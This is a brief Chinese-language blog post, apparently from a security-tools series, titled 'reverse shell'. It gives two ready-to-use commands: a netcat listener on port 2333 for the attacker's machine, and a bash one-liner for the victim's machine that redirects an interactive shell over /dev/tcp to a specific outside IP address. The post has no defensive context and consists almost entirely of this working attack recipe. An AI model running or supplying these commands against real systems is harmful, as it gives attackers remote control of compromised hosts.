 ```yaml
---
layout: post
title: 反弹shell
categories: 安全工具
description: 反弹shell
keywords: 反弹shell
---
```



## 执行反弹 shell 

我们就以最常见的bash为例：
`attacker`机器上执行：
```powershell

nc -lvvnp 2333
```


`victim `机器上执行：
```shell
bash -i >& /dev/tcp/101.33.66.29/2333 0>&1
```